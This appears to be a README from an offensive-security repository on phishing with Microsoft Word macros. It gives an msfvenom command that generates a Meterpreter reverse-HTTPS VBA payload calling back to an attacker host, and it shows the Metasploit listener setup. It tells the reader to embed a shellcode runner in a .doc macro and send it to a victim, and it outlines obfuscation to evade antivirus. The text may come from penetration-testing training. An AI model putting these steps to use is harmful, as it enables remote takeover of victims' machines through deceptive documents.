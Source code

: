 # Initial Access via Phishing

This is for Microsoft Office Word. We assume we are using meterpreter to catch the shell and we will be generating payloads according to the Windows Office version present on the victim. Generally x86 for Office 2016 and x64 for Office 2021/365

We start with the simplest payload which is to create a direct VBA shellcode runner with no obfuscation and then escalate accordingly with obfuscation, powershell and C# usage.

[Round 1: The Simple Direct VBA Shellcode Runner]()



# Round 1: The Simple Direct VBA Shellcode Runner
**Traits**
- As simple as it gets. All VBA with help from Win32APIs
- Unlikely to evade AV
- Dies the moment the victim closes Word. So you need to migrate to another process quick or you have some pretexting magic to keep the victim on the Word document


The malicious payload generated as such:

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.XX.XX LPORT=443 EXITFUNC=thread -f vbapplication
```

Open Listener
```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > set EXITFUNC thread
EXITFUNC => thread

```

Slot the below into a macro in a .doc file, and send it to the victim who hopefully will be dumb enough to open and enable macro and stare at the document in disbelief while your shellcode runs.

Remember to change whatever that is in the buf variable to the shellcode generated by msfvenom!

![Simple VBA Shellcode Runner here](SimpleDirectVBARunner.vba)

# Round 2: The Obfuscated Direct VBA Shellcode Runner

- With Sleep Function to dodge Heuristics detection
- With single byte XOR encryption of shellcode


